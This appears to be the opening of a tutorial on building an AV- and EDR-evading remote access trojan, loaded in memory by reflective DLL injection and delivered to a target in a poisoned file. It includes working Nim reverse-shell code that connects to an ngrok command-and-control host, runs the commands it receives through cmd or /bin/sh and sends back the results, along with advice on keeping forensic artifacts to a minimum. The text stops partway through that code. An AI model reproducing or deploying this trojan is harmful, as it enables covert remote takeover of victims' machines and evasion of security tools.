 The purpose of this adversarial malware design walkthrough is to explore techniques for designing a malware that will grant remote access to a target while also attempting to bypass AV and EDR solutions.
This specific walkthrough makes use of the Reflective DLL Injection technique with some minor obfuscation to execute our malware entirely in memory without writing the dropper malware to disk. Here is a brief summary of the steps we need to take.
1. Design a simple remote access trojan that is not signatured by AV (Using this tradecraft you can substitute this for an advanced dropper)
2. Compile our trojan as a dynamic link library.
3. Modularizing our trojan by preparing it for reflective dll execution.
4. Deliver a malicious file to the target that will excute our malware in memory.

If we successfully execute the above techniques the only artifact on disk for forensics will be our poisoned file.
It is important to note that it will still be possible to inspect our malware using forensic tooling capable of dumping process memory.
Also consider the fact that if your malware executes attacks on other devices on the network this can lead to greater scrutiny of the infected device.

# Step 1: Designing the Trojan

For the sake of brevity our trojan will be a simple reverse shell created using the Nim programming language. Keep in mind that this technique is applicable to any software compiled as a dynamic link library. The trojan does need not be a reverse shell nor does it need to be written in Nim. I am using Nim because this is a simple proof of concept trojan. 
Nim is capable of compiling to C/C++/Objective C and even Javascript. 
You can also compile a Nim program for multiple different operating systems depending on the flags you pass to the compiler, however that is beyond the scope of this walkthrough. Lets take a look at our script reverse_shell.nim:

```
import net
import osproc   # For execCmdEx
import os


# My CC Server IP and Port
var ip = "2.tcp.ngrok.io"   # This can also be the IP Address of another device on your local network
var port = 11606            # see the repository reverse_shell.nim

# Create a new socket
var socket = newSocket()
var finalCommand : string
while true:
    try:
        socket.connect(ip, Port(port)) # Connect to CC Server
        # On a successful connection receive command from CC Server, execute command and send back result
        while true:
            try:
                socket.send("agent-x >")
                var command = socket.recvLine() # Read server command to be executed on target
                if command == "exit":
                    socket.send("Ending session for this client.")
                    socket.close()
                    system.quit(0)
                if system.hostOS == "windows":
                    finalCommand = "cmd /C" & command
                else:
                    finalCommand = "/bin/sh -c " & command
                var (cmdRes, _) = execCmdEx(finalCommand) # Executes final command and saves the result in cmdRes
                socket.send(cmdRes) # Send back the result to the CC Server
```